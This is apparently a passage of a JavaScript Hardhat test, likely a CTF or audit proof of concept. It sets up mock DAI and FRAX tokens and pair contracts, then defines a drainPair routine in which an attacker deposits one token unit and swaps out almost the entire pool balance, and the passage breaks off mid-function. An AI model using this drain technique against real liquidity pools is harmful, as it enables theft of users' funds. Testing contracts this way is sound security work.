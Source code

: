 ```
        frax = await MockERC20Factory.deploy("Frax Stablecoin", "FRAX", 18);
        await frax.deployed();

        // Mint tokens to attacker
        await dai.connect(deployer).mint(attacker.address, INITIAL_TOKEN_SUPPLY_FOR_ATTACKER);
        await frax.connect(deployer).mint(attacker.address, INITIAL_TOKEN_SUPPLY_FOR_ATTACKER);

        // Deploy PairGenerator
        const PairGeneratorFactory = await ethers.getContractFactory("PairGenerator", deployer);
        pairGenerator = await PairGeneratorFactory.deploy();
        await pairGenerator.deployed();

        // Deploy PairFactory
        const PairFactoryFactory = await ethers.getContractFactory("PairFactory", deployer);
        factory = await PairFactoryFactory.deploy();
        await factory.deployed();

        // Initialize PairFactory
        await factory.connect(deployer).initialize(pairGenerator.address);

        // Get Pair contract factory for later use
        Pair = await ethers.getContractFactory("Pair", deployer);
    });

    // Modified drainPair to use current balances from the pair
    async function drainPair(pairInstance, currentAttacker, token0, token1) {
        let t0, t1;
        if (token0.address.toLowerCase() < token1.address.toLowerCase()) {
            t0 = token0;
            t1 = token1;
        } else {
            t0 = token1;
            t1 = token0;
        }

        // Get current balances from the pair contract right before draining
        let currentBalanceT0InPair = await t0.balanceOf(pairInstance.address);
        let currentBalanceT1InPair = await t1.balanceOf(pairInstance.address);

        // Attacker sends 1 of token0 to the pair to facilitate the first swap
        await t0.connect(currentAttacker).transfer(pairInstance.address, 1);
        currentBalanceT0InPair = currentBalanceT0InPair.add(1); // Update local tracking

        // Attacker swaps out (current balance of token1 - 1) from the pair
        // Ensure we don't try to swap more than available or zero if balance is already 1 or less
        const amountT1ToSwapOut = currentBalanceT1InPair.gt(0) ? currentBalanceT1InPair.sub(1) : ethers.BigNumber.from(0);
        if (amountT1ToSwapOut.gt(0)) {
             await pairInstance.connect(currentAttacker).swap(0, amountT1ToSwapOut, currentAttacker.address, "0x");
        }

// Get actual balance of t0 after the first swap (it might have changed due to swap mechanics if _k was not 0)
        currentBalanceT0InPair = await t0.balanceOf(pairInstance.address);
        // Get actual balance of t1 after the first swap
        currentBalanceT1InPair = await t1.balanceOf(pairInstance.address);

        // Attacker sends 1 of token1 to the pair to facilitate the second swap
        await t1.connect(currentAttacker).transfer(pairInstance.address, 1);
        currentBalanceT1InPair = currentBalanceT1InPair.add(1); // Update local tracking

        // Attacker swaps out (current balance of token0 -1) from the pair to leave 1 behind
```